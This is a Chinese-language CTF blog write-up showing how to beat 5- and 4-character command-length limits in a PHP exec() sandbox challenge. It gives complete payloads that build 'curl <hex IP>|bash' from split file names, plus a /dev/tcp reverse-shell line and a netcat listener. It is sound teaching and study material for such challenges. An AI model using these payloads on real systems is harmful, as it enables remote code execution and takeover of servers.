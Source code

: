 # 绕过字符数限制 getshell


## 0x00 前言

之前做题有做到过字数限制的 shell，有五个字符也有四个字符的，当然我一直不会做，最近又重新研究了一下这个绕过的问题，就把它记录下来了

这种题一般都是每人一个 sandbox 目录，之后的操作都在这个目录中进行



## 0x01 前置知识

1. `ls` 输出的默认排序是逐字符按照 ASCII 码从小到大排序

2. `ls -t` 文件名按时间排序

3. 重定向符 `>` 无命令也可用于创建文件

4. IP 的等价表示（选用，有时可降低难度）

   将 `.` 分隔的每个十进制数转换成两位十六进制再连接起来（可转换成十进制、八进制等），和原 IP 等价使用

   ```python
   ip = '172.17.0.1'
   hex_ip = '0x'
   for i in ip.split('.'):
       hex_ip += str(hex(int(i)))[2:].zfill(2)
   print(hex_ip) # 0xac110001
   print(int(hex_ip, 16)) # 2886795265
   print('0' + oct(int(hex_ip, 16))[2:]) # 025404200001
   ```

5. 单独的 `*` 相当于 `` `ls` `` 即将文件名作为命令执行，也可以添加其它字符进行匹配

   ![star](star.jpg "单独的 * 相当于 `ls`")

   如上图所示，目录下有两个文件 `dir` 和 `whoami` ，单独的 `*` 执行了 `dir whoami` 命令，而 `*i` 执行了 `whoami` 命令

6. `dir` 命令本质上与 `ls` 相同，但输出不换行，且首字母为 d 可以操作

7. `rev` 命令输出反转文件每一行后的内容

   ![rev](rev.jpg "rev 命令反转每一行的内容")



## 0x02 5个字符

当然先是五个字符的，简单一点

题目代码如下：

```php
<?php
$sandbox = '/tmp/sandbox5/'.md5($_SERVER['REMOTE_ADDR']);
@mkdir($sandbox);
@chdir($sandbox);
if (isset($_GET['cmd']) && strlen($_GET['cmd']) <= 5) {
        @exec($_GET['cmd']);
} else if (isset($_GET['reset'])) {
        @exec('/bin/rm -rf '.$sandbox.'/*');
}
highlight_file(__FILE__);
```

大体思路就是把 `curl ip|bash` 分割成一个一个小字符串，并在结尾添加 `\` 连接，将要执行的脚本放在服务器上，这其中还要用到 `ls -t` ，为了防止 `.` 的干扰采用十六进制表示 IP (这里需要自己研究怎么分割)

```bash
# ls -t>v
>ls\\
ls>_
>\ \\
>-t\\
>\>v
ls>>_
# curl 0xac110001|bash (适当分割并逆序写入)
>bash
>\|\\
>01\\
>00\\
>11\\
>ac\\
>0x\\
>\ \\
>rl\\
>cu\\
# exec
sh _
sh v
```

服务器中 `index.html` 中放有反弹 shell 的命令

```bash
bash -i >& /dev/tcp/172.17.0.1/12345 0>&1
```

在服务器监听 `12345` 端口

```bash
nc -lvp 12345
```

成功反弹 shell



## 0x02.5 一个惊喜的发现

我在做 4 个字符的测试时发现，用 php 的 `exec` 函数执行 shell 命令，结尾的反斜杠居然不需要转义

即上一题的 payload 可简化为

```bash
# ls -t>v
>ls\
ls>_
>\ \
>-t\
>\>v
ls>>_
# curl 0xac110001|bash (适当分割并逆序写入)
>bash
>1\|\
>000\
>c11\
>0xa\
>l\ \
>cur\
# exec
sh _
sh v
```

也成功反弹了 shell，不知道是不是个例或者是 php 版本问题，但我在接下来 4 个字符的操作中使用到了这个特性，要是有 dalao 发现这样不可行烦请告知我（如果真的有 dalao 看的话



## 0x03 4个字符

这才是重头戏，曾经差点把我搞自闭的题，我终于做出来了

题目代码如下：

```php
<?php
$sandbox = '/tmp/sandbox4/'.md5($_SERVER['REMOTE_ADDR']);
@mkdir($sandbox);
@chdir($sandbox);
if (isset($_GET['cmd']) && strlen($_GET['cmd']) <= 4) {
        @exec($_GET['cmd']);
} else if (isset($_GET['reset'])) {
        @exec('/bin/rm -rf '.$sandbox.'/*');
}
highlight_file(__FILE__);
```

思路与之前相同，但是要充分运用 `dir` 和 `rev` 命令，先放一下 payload 再进行分析

```bash
# ls -tk>f
>dir
>f\>
>kt-
>sl
*>v # 这里文件名为 v 非常重要
>rev
*v>g
# curl 0xac110001|bash (适当分割并逆序写入)
>ash
>b\
>\|\
>01\
>00\
>11\
>ac\
>0x\
>\ \
>rl\
>cu\
# exec
sh g
sh f
```

这里重点分析第一部分，怎么奇特的构造出需要的命令

第一步创建名为 dir 的文件，由于 d 的 ASCII 码较小，这个文件在第一部分将始终位于第一位

第二三四步分别创建对应文件

第五步用到了单独的 `*` 这里相当于执行了 `` `dir f> kt- sl`>v``

这之后文件 v 中的内容为 `f> kt- sl`

第六步创建名为 rev 的文件

第七步是这里最重要的地方，也是前边的文件名为 v 非常重要的原因，用到了 `*` 第二种用法，相当于执行了 `` `rev v`>g`` ，即将 v 的内容反转写入 g

这之后文件 g 的内容为 `ls -kt >f` 之后的内容与 5 个字符的方法相同

这里再解释两个地方

1. 是文件名 f 可以修改，但要保证其位于第二位

2. 是 `-tk` 中的 k 对输出结果没有影响，但控制了该文件在输出中的位置，也可进行修改，但要仍满足以上两点才可以



## 0x04 后记

好久没写博客了，在 npy 的提醒下来水一篇博客，也当做一个笔记，下次遇到这种题查自己博客就好了

这两道题的[源码](https://github.com/X5tar/bypass-char-number-limit)我放到 GitHub 了，并添加了一个文件名为 shell.php 的 webshell，方便以 www-data 用户进行一些操作（好像也没多大用


